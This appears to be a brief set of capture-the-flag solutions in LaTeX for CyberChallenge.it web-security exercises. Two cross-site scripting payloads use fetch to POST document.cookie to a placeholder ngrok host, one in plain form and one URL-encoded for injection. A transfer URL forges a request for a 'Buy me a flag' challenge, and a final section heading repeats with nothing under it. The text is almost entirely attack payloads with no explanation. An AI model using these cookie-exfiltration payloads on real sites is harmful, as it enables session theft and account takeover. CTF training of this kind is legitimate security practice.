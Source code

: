 \section{WS_3.04 - XSS Simple 4}
\texttt{<body onload="fetch('https://<your-token>.ngrok-free.app/', {method:'POST', body:document.cookie});"> asasdf </body>}

\section{WS_3.05 - XSS Simple 5}
\texttt{\%0Afetch(\%60https\%3A\%2F\%2F<your-token>.ngrok-free.app\%60\%2C\%20\%7Bmethod\%3A\%60POST\%60\%2C\%20body\%3Adocument.cookie\%7D)\%3B\%2F\%2F}

\section{WS_3.06 - Buy me a flag pls}
\texttt{http://buyflag.challs.cyberchallenge.it/doTransfer.php?to=2136&amount=10}

\section{WS_3.06 - Buy me a flag pls}
